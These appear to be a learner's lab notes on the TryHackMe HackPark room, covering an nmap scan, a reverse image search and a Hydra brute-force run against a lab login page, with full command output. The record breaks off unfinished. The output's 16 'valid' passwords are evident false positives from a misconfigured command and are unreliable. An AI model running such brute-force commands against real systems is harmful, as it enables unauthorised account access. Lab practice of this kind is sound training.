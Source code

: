 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]

## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
### Hydra HTTP Crack Output
```bash
                                                                                                           
┌──(root㉿kali)-[/home/z3tssu]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/ 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-18 15:38:48
[ERROR] optional parameter must start with a '/' slash!

                                                                                                                  
┌──(root㉿kali)-[/home/z3tssu]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-18 15:39:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.205.233:80/:username=^USER^&password=^PASS^:F=incorrect
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.205.233 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[80][http-post-form] host: 10.10.205.233   login: admin   password: babygirl
[80][http-post-form] host: 10.10.205.233   login: admin   password: jessica
[80][http-post-form] host: 10.10.205.233   login: admin   password: 123456
[80][http-post-form] host: 10.10.205.233   login: admin   password: 12345
[80][http-post-form] host: 10.10.205.233   login: admin   password: 12345678
[80][http-post-form] host: 10.10.205.233   login: admin   password: abc123
[80][http-post-form] host: 10.10.205.233   login: admin   password: monkey
[80][http-post-form] host: 10.10.205.233   login: admin   password: 123456789
[80][http-post-form] host: 10.10.205.233   login: admin   password: iloveyou
[80][http-post-form] host: 10.10.205.233   login: admin   password: princess
[80][http-post-form] host: 10.10.205.233   login: admin   password: daniel
[80][http-post-form] host: 10.10.205.233   login: admin   password: rockyou
[80][http-post-form] host: 10.10.205.233   login: admin   password: nicole
[80][http-post-form] host: 10.10.205.233   login: admin   password: password
[80][http-post-form] host: 10.10.205.233   login: admin   password: 1234567
[80][http-post-form] host: 10.10.205.233   login: admin   password: lovely
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-18 15:40:00
```
based on the above we have found 16 valid password? I'm not sure if that is correct lol
lets test it out

Maybe we have to now create a password list from the above to test it out?


